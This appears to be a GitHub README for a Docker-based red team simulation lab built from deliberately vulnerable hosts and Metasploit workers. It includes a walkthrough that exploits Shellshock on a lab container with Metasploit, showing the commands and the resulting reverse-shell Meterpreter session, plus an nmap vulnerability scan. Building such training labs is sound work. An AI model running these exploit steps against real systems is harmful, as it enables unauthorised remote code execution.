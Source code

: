 # redteam

Red Team simulation

## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
  - vsftpd with an infamous backdoor
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)




## Requirements

1. Install docker and docker-compose




## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start director and workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Development

### Coding

Use one branch per feature so we can merge in small change increments: `git checkout main && git pull && git checkout -b my-branch-name`

### Run tests

```docker-compose -f docker-compose-tests.yml up --build```

### Using your local python

You should normally use `docker-compose up` instead of running your own python, but if for some reason you need local development:

```
pip install --user pipenv
cd redteam/src
pipenv shell
pipenv install --dev
python -m director
```



## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


<details>
  <summary>Remote code execution exploiting Shellshock</summary>

### Example attack


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit:
```
> exploit

[*] Started reverse TCP handler on 172.19.0.6:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 172.19.0.3
[*] Meterpreter session 1 opened (172.19.0.6:4444 -> 172.19.0.3:60846) at 2020-11-04 12:52:22 +0000

meterpreter >
```

Profit!


</details>


<details>
  <summary>Vulnerability scanning</summary>

```
  mkdir -p $HOME/.nmap/scripts && wget -O $HOME/.nmap/scripts/vulners.nse 'https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse' && nmap --script-updatedb
  nmap -sV --script vulners  --script-args mincvss=6.0 target1
```
</details>
